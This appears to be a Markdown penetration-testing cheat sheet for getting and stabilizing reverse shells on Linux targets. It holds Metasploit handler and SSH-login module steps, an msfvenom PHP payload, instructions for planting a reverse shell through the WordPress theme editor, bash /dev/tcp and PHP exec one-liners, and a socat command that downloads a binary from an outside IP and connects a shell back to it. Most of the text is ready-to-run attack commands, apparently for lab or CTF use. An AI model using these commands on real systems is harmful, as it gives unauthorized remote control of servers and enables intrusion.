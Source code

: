 # Linux

# Reverse Shell

## Metasploit

### msfconsole

- Get meterpreter session with SSH login

```
use auxiliary/scanner/ssh/ssh_login
set rhosts 0.0.0.0
set username user
set password pass
run
sessions -u 1
- Meterpreter listener
```bash
$ msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload linux/x64/meterpreter/reverse_tcp

```

- PHP Web Delivery

```
$ msfconsole
use exploit/multi/script/web_delivery
set payload php/meterpreter/reverse_tcp
set target PHP
set lhost tun0
run

```

### msfvenom payload

- PHP Meterpreter

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\\n' > shell.php && pbpaste >> shell.php

```

## Payload

---

### PHP

- Get reverse shell from Wordpress admin dashboard using themes edition

```
Login as admin, and edit a theme's php file.
Replace content with Pentest Monkey's php-reverse-shell
Browse file : <http://hostname/wordpress/wp-content/themes/themename/file.php>

```

- Basic PHP command line to open a shell

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");

```

## OS Command

- Bash command to open shell

```
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

```

- Socat Shell

```
wget -q 10.6.77.211/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.77.211:443

```

# Stabilizing shell

---

- Upgrade shell to bash/pty

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 50 columns 190

```

- If Ctrl-Cmd are needed (doesnt work well with meterpreter shell)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Then Ctrl-Z to background revshell
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 50 columns 190

```

## Links

---

### Guides

- [https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)
- [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [https://netsec.ws/?p=331](https://netsec.ws/?p=331)
- [https://gtfobins.github.io/](https://gtfobins.github.io/)

### Writeups

-